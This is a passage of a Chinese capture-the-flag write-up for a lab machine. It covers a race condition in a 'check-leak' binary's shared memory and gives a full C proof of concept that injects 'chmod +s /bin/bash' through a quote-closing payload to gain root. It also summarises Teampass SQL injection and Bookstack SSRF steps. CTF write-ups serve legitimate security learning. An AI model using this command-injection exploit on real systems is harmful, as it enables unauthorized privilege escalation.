

因此如果能够控制这个**command**的内容，就可以写入命令

其中**v20**间接和**v5**有关，也就是和当前时间戳的随机数有关




因此总的思路就有了

```
先通过 v5 = write_to_shm(ptr); 获取到共享内存地址
再写入 v20 变量进行命令执行
最后不停修改共享内存，导致目标脚本读取到修改后的命令
```

这里要注意几个点

第一个点，共享内存中必须要有**Leaked hash detected**这个字符串


否则就会像这样无法执行😭👇



第二个点，字符串中必须要有大于符号（**ASCII**码为62）



否则会报这个错😭👇



### POC

这是我用**AI**跑的👇

```
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>

int main() {
    unsigned int v4 = (unsigned int)time(NULL);
    srand(v4);

    // 生成随机键
    key_t key = rand() % 0xFFFFF;

    // 获取共享内存段的标识符
    int shmid = shmget(key, 0x400, IPC_CREAT | 0666);
    if (shmid < 0) {
        perror("shmget failed");
        return 1;
    }

    // 附加共享内存
    char *share_memory = (char *)shmat(shmid, NULL, 0);
    if (share_memory == (char *)-1) {
        perror("shmat failed");
        return 1;
    }

    // 修改共享内存中的内容，必须要有前面的Leaked到>部分
    const char *message = "Leaked hash detected > '; chmod +s /bin/bash;#";
    snprintf(share_memory,0x400,"%s", message ); // 将消息复制到共享内存

    // 读取并打印共享内存中的内容
    printf("Message in shared memory: %s\n", share_memory);

    // 分离共享内存
    if (shmdt(share_memory) == -1) {
        perror("shmdt failed");
        return 1;
    }

    return 0;
}
```

使用**gcc**编译好，然后传到靶机上

```
gcc -o test test.c
```

然后持续执行

```
while true; do ./test; done
```

最后**sudo**执行那个检查命令，得到的正确回显应该是**mysql**报错，但是不影响后面提权的部分



## Summary

这是一道很有质量的题目！不仅有**Web**，还包含了逆向的部分。

`User`：**Teampass**的**[SQL注入](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612)**漏洞拿到密码哈希值，破解后获取到**reader**的**ssh**密码，但是需要验证码。登录到了**Bookstack**，通过[SSRF漏洞](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)读取密钥值，生成验证码后进行**SSH**登录。（可能需要切换节点

`Root`：**IDA**反编译**check-leak**脚本，发现存在**条件竞争**漏洞，共享内存在一秒钟的时间内是可以写状态，之后内存中的命令会被带到命令行中拼接为**mysql**查询命令，这里可以直接引号闭合拼接命令。要注意的是脚本对内存中的字符串内容有检查，否则到不了**mysql**那一步。
